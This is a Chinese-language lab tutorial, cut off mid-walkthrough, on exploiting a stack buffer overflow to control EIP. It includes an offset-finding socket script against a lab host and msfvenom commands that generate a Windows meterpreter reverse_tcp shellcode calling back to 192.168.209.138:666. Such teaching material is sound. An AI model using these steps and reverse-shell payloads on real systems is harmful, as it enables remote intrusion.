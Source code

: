 我们先发送50个a给这个程序，看看这个程序会不会溢出。
![](https://bbs.ichunqiu.com/data/attachment/album/202103/06/010615z9a0zj9sbfbnjoq3.jpg)
发过去之后，我们立马过去看调试：
![](https://bbs.ichunqiu.com/data/attachment/album/202103/06/010619m60edh9kddrk5v6f.jpg)
这个时候程序pause了，可以看到EIP变成了4个61！那么为什么会变成61呢？想了一下，我们输入了a，它对应的十六进制的ASCII正好就是61！所以我们可以基本确定的是，我们输入的内容中的一部分被溢出到了EIP这个寄存器。
那么我们下一步就是要来确定到底是哪个位置溢出的字符变成了EIP的值，所以我们这个时候就要来找，这个时候我们有两种思路：

1. 使用二分法

2. 使用特征字符
    第一种就是比较基本的寻找，第二种就是输入50个不同的字符，然后看看是哪个位置的值覆盖了EIP。
    第二种kali之前是带了可以生成的工具，但是我的kali不知道什么原因出错了，可能是Ruby的版本不同吧。
    我就用二分法，也不是很难，就是在50个位置里面找一个位置，找个几次也就找出来了，这里的话呢我们最好用一个小脚本：

  ```js
  function main(args)
  {
          s = CreateTCPSocket("192.168.209.130",8888);
          wb = TCPSocketRecv(s);
          print(wb);
          b = AddBytes(GetSomeBytes("144",16),GetSomeBytes("97",4));
          TCPSocketSend(s,bw);
          wb = TCPSocketRecv(s);
          print(wb);
          CloseTCPSocket(s);
  }
  ```

  

详细的函数说明请看函数介绍，很简单就是通过更改"B"字符乘的个数，来确定到底是第几个位置出现了，也就是到底是乘几才会让EIP变成4个“O”。
最终发现16个B之后的连续四个字节会覆盖EIP。
![](https://bbs.ichunqiu.com/data/attachment/album/202103/06/010621ny1z4g86oqcarjq1.jpg)
到此为止我们就已经完成了一半，我们现在可以控制程序的EIP，那么问题来了，虽然我们可以控制程序的EIP，那么如何让他执行我们想要执行的代码呢？这是一个问题。
这个时候我们多次尝试的过程中发现一个问题，当我们字符输入很多的时候，我们在四个“O”之后的内容会出现在栈中！这个意思就是说我们可以控制栈的内容：
![](https://bbs.ichunqiu.com/data/attachment/album/202103/06/010624hkq8o9d16l5vj5vd.jpg)

所以说溢出的结构是：

——————————
原始位置
——————————
EIP
——————————
栈
——————————

这个时候就可以想到，如果我们在栈中放入我们的恶意代码，然后让EIP的值等于ESP，那么就会在目标系统执行我们的木马。
好了那么我们现在需要一段恶意代码，也就是能够在目标系统留一个后门程序的，那么我们如何得到呢？其实kali提供给我们了一个程序可以生成这么一段汇编代码，使用msfvenom这个程序进行生成。
具体命令：`msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.209.138 lport=666 -a x86 -f c --platform windows`
![](https://bbs.ichunqiu.com/data/attachment/album/202103/06/010627uw8n8u923bk35668.jpg)
可以看到生成了一个Python格式的字节但是我们注意，可以看到我们这里面存在一个00，这个显然不是我们要的，因为00是字符串的结束啊，所以我们不能有00这个字节，那么我们就需要告诉他我们排除00这个badchar。
`msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.209.138 lport=666 -a x86 -f c --platform windows -b 00`
![](https://bbs.ichunqiu.com/data/attachment/album/202103/06/010629er6366akga20r3te.jpg)
这个就是没有00了，那么我们可以改一下我们的代码：
